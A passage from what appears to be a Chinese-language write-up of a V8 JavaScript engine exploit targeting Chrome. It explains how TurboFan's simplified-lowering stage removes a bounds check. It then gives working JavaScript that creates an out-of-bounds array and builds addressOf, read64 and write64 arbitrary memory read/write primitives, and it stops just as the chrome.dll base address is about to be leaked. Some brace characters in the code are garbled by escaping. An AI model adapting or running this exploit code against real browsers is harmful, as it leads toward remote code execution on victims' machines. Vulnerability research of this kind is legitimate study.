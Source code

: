 ```
`}`
for(let i = 0; i &lt; 0x20000; i++)
  opt(true);

var oob = opt(false);
oob.length = 0x1000;
```

查看一下IR图，在`V8.TFEscapeAnalysis`阶段时，还存在`CheckBound`节点

[![](https://p3.ssl.qhimg.com/t01d0cbf22e8ab75746.png)](https://p3.ssl.qhimg.com/t01d0cbf22e8ab75746.png)

然而到了`V8.TFSimplifiedLowering`阶段，该节点消除了，于是数组可以越界

[![](https://p1.ssl.qhimg.com/t01b310cdf5564f51f1.png)](https://p1.ssl.qhimg.com/t01b310cdf5564f51f1.png)

构造出OOB数组以后，只需接下来布局几个对象，即可轻松实现`addressOf`，`read64`，`write64`等原语，实现任意地址读写。

```
var obj_arr = [`{``}`];
var float_arr = new Float64Array(1.1,2.2);
var arr_buf = new ArrayBuffer(0x1000);
var adv = new DataView(arr_buf);

var compression_high = u64f(oob[0x1d])[0];
print("compression_high=" + compression_high.toString(16));

function addressOf(obj) `{`
   obj_arr[0] = obj;
   var low = BigInt(u64f(oob[0x9])[1]) - 0x1n;
   var addr = low | (BigInt(compression_high) &lt;&lt; 32n);
   return addr;
`}`

function read64(addr) `{`
   oob[0x22] = p64f(0,big2int(addr));
   oob[0x23] = p64f(big2int(addr &gt;&gt; 32n),0);
   return adv.getBigUint64(0,true);
`}`

function write64(addr,value) `{`
   oob[0x22] = p64f(0,big2int(addr));
   oob[0x23] = p64f(big2int(addr &gt;&gt; 32n),0);
   adv.setBigUint64(0,value,true);
`}`
```

### <a class="reference-link" name="%E5%9C%B0%E5%9D%80%E6%B3%84%E9%9C%B2"></a>地址泄露

我们使用`addressOf`泄露出`chrome.dll`的地址，然后后续就可以计算出一些gadgets的地址
